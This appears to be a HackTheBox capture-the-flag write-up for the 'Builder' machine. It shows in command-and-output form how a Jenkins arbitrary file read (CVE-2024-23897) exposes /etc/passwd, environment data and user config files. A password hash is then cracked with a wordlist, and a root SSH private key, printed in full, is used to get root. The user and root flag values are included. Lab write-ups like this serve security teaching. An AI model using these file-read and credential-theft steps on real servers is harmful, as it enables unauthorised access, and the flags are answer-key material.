 ```yaml
---
layout: post
title: "HTB Linux Medium: Builder"
description: "Builder is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.11.10 
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-02-13 14:43 EST
Nmap scan report for 10.10.11.10
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```


### Enumerate HTTP (Port 8080)
On the landing page we see that Jenkins 2.441 is running.
![Pasted image 20240714211257.png](/images/Pasted image 20240714211257.png){: .normal }


Checking for exploits for this version, we find the following [PoC](https://github.com/binganao/CVE-2024-23897).
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python poc.py <http://10.10.11.10:8080/> /etc/passwd                         
REQ: b'\\x00\\x00\\x00\\x06\\x00\\x00\\x04help\\x00\\x00\\x00\\x0e\\x00\\x00\\x0c@/etc/passwd\\x00\\x00\\x00\\x05\\x02\\x00\\x03GBK\\x00\\x00\\x00\\x07\\x01\\x00\\x05zh_CN\\x00\\x00\\x00\\x00\\x03'

RESPONSE: b'\\x00\\x00\\x00\\x00\\x01\\x08\\n\\x00\\x00\\x00K\\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\\n\\x00\\x00\\x00\\x1e\\x08java -jar jenkins-cli.jar help\\x00\\x00\\x00\\n\\x08 [COMMAND]\\x00\\x00\\x00\\x01\\x08\\n\\x00\\x00\\x00N\\x08Lists all the available commands or a detailed description of single command.\\n\\x00\\x00\\x00J\\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\\n\\x00\\x00\\x00\\x04\\x04\\x00\\x00\\x00\\x02'
```

In /proc/self/environ we find the home directory of `/var/jenkins_home`.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python poc.py <http://10.10.11.10:8080/> /proc/self/environ
REQ: b'\\x00\\x00\\x00\\x06\\x00\\x00\\x04help\\x00\\x00\\x00\\x15\\x00\\x00\\x13@/proc/self/environ\\x00\\x00\\x00\\x05\\x02\\x00\\x03GBK\\x00\\x00\\x00\\x07\\x01\\x00\\x05zh_CN\\x00\\x00\\x00\\x00\\x03'

RESPONSE: \\x00SHLVL=0\\x00JENKINS_HOME=/var/jenkins_home\\x00REF=/usr/share/jenkins/ref\\x00PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\\x00. Available commands are above. \\n\\x00\\x00\\x00\\x04\\x04\\x00\\x00\\x00\\x05'
```

Get user flag: `a8b63f9472fc21604cd3d485a8fff182`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 poc.py <http://10.10.11.10:8080/> /var/jenkins_home/user.txt

a8b63f9472fc21604cd3d485a8fff182
```

### Enumerate Jenkins (Port 8080)
Install jenkins locally for enumeration: [Link](https://github.com/jenkinsci/docker)
```bash
sudo docker run -p 8080:8080 -p 50000:50000 --restart=on-failure jenkins/jenkins:lts-jdk17
```

While enumerating the Docker container we find a users.xml folder that contains the user directory string.
```bash
jenkins@3804af0a8654:~/users$ cat users.xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson.model.UserIdMapper>
  <version>1</version>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>giiker</string>
      <string>giiker_3545904605993379044</string>
    </entry>
  </idToDirectoryNameMap>
</hudson.model.UserIdMapper>jenkins@3804af0a8654:~/users$
```

Since the PoC isn’t returning any useful input we can instead download the java cli client from the server: [Link](https://www.jenkins.io/doc/book/managing/cli/)
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ wget <http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar>
--2024-02-15 11:48:16--  <http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar>
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                         100%[============================================================================>]   3.46M  3.22MB/s    in 1.1s    

2024-02-15 11:48:17 (3.22 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

Using the connect-node option instead of help we are able to retrieve the username of jennifer.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ java -jar jenkins-cli.jar -s <http://10.10.11.10:8080> connect-node '@/var/jenkins_home/users/users.xml'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

In the config.xml file located in jennifer’s directory we find a password hash.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ java -jar jenkins-cli.jar -s <http://10.10.11.10:8080> connect-node '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'

<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
```

Use JohnTheRipper to crack the hash.
```bash
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
princess         (?)     
1g 0:00:00:00 DONE (2024-02-15 11:54) 3.448g/s 124.1p/s 124.1c/s 124.1C/s 123456..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We can use the credentials to login to Jenkins: `jennifer:princess`.
![Pasted image 20240714211247.png](/images/Pasted image 20240714211247.png){: .normal }

### Shell as root
Whilst enumerating the Jenkins credentials I came across an SSH private key of the root user.
![Pasted image 20240714211243.png](/images/Pasted image 20240714211243.png){: .normal }

Clicking on update and analyzing the source code we find that there is a value assigned to the private key.
![Pasted image 20240714211239.png](/images/Pasted image 20240714211239.png){: .normal }

In the Jenkins script console we can write a script that will decode the value found earlier: [Link](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml)
![Pasted image 20240714211227.png](/images/Pasted image 20240714211227.png){: .normal }
```bash
# Result
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

SSH as the root user using the private SSH key.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa root@10.10.11.10
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Thu Feb 15 05:00:40 PM UTC 2024

  System load:  0.03271484375     Processes:                216
  Usage of /:   66.1% of 5.81GB   Users logged in:          0
  Memory usage: 42%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:    10.10.11.10

  => There is 1 zombie process.

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

Last login: Thu Feb 15 17:00:41 2024 from 10.10.14.188
root@builder:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `4dd0f178f9a0f8a772352f5660abb752`
```bash
root@builder:~# cat root.txt
4dd0f178f9a0f8a772352f5660abb752
```


## PWNED!!!
![Pasted image 20240714211220.png](/images/Pasted image 20240714211220.png){: .normal }